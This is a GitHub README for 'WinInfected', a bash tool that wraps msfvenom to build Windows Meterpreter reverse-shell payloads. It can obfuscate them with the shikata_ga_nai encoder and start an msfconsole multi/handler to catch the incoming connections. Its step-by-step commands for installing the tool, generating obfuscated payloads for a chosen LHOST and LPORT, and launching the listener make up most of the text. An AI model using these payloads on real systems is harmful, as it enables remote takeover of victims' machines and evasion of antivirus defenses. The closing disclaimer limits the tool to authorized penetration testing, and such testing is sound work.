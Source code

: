 # WinInfected v1.2

WinInfected is a bash script that automates the generation of a Windows Meterpreter payload using `msfvenom` from the Metasploit Framework. The script supports payload obfuscation via the `x86/shikata_ga_nai` encoder (with 5 iterations) when the `--obfuscate` option is specified. It also offers convenient options for checking and installing dependencies, updating the required packages, and launching `msfconsole` with a pre-configured multi/handler.

## Features

- **Payload Generation:** Create a Windows Meterpreter payload using `msfvenom`.
- **Optional Obfuscation:** Use the `x86/shikata_ga_nai` encoder with 5 iterations for payload obfuscation.
- **Dependency Management:** Check for and install missing dependencies (Metasploit Framework).
- **Script Update:** Update dependencies with a single command.
- **Automated Listener:** Optionally launch `msfconsole` with a configured multi/handler to listen for incoming connections.
- **Current Directory Output:** The generated payload is saved in the current working directory with a timestamped filename.

## Usage

## Script Options

```bash
WinInfected v1.2
Usage: ./wininfected [LHOST] [LPORT] [--obfuscate]
Options:
  --dependencies   Check and install missing dependencies.
  --update         Update script and dependencies.
  --obfuscate      Enable payload obfuscation using x86/shikata_ga_nai encoder.
  -h, --help       Display this help message.
  More information: https://github.com/byfranke/wininfected
```

## Steps to Run:

```bash
git clone https://github.com/byfranke/WinInfected.git
```

```bash
cd WinInfected
```
```bash
chmod +x installer.sh
```

```bash
bash installer.sh
```

Install Dependencies (if needed):
```bash
./wininfected --dependencies
```

Generate a Payload:

Without Obfuscation:
```bash
./wininfected <LHOST> <LPORT>
```

With Obfuscation:
```bash
./wininfected <LHOST> <LPORT> --obfuscate
```

Replace `<LHOST>` with your local host IP and `<LPORT>` with your desired port number.

Launch Listener (Optional): After the payload is generated, the script will prompt:

Do you want to start msfconsole to listen for connections? (y/n):
Enter `y` to launch `msfconsole` with a pre-configured multi/handler, or `n` to exit.

## Dependencies
- Metasploit Framework: Provides both `msfvenom` and `msfconsole`.
Installation (on Debian-based systems):

```bash
sudo apt update && sudo apt install metasploit-framework -y
```

**Notes**
- The generated payload is stored in the current working directory with a filename based on the current timestamp.
- Ensure you run the script with the appropriate permissions to install packages and execute commands.
- This tool is designed for educational purposes and authorized penetration testing only.

## Disclaimer
- **WARNING:** This script is intended for legal, ethical, and authorized penetration testing only. The author is not responsible for any misuse or damage caused by this tool.
